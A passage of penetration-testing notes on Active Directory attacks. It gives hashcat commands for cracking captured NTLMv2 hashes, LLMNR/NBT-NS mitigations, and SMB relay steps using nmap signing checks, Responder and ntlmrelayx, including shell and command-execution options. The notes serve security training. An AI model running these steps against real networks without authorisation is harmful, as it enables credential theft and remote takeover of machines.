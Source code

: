 * Event occurs in Windows

* Obtain hashes and crack them using Hashcat

```shell
hashcat -m 5600 ntlmhash.txt rockyou.txt
#-m 5600 for NTLMv2
#ntlmhash.txt contains the hashes
#you can use rules with a wordlist
```

* Mitigation:

* Disable LLMNR and NBT-NS

* Require Network Access Control

* Use strong password policy

* SMB Relay:

* Instead of cracking hashes gathered with Responder, we can relay those hashes to specific machines and gain access.

* Requirements:

* SMB signing must be disabled on target
* Relayed user creds must be admin on machine

* Steps:

* Discover hosts with SMB signing disabled

```shell
nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24
#we need to note down machines with 'message signing enabled but not required'
#-Pn if nmap states that the host is down, but it is not

vim targets.txt
#add target IPs
```

* Edit Responder config - turn SMB and HTTP off

```shell
vim /etc/responder/Responder.conf
#turn SMB, HTTP off
```

* Run Responder tool

```bash
sudo responder -I eth0 -dwP
```

* Setup relay

```shell
sudo ntlmrelayx.py -tf targets.txt -smb2support

#trigger connection in Windows machine
#by pointing it at the attacker machine

#-i option can be used for an interactive shell
#-c option to execute commands like "whoami"
```

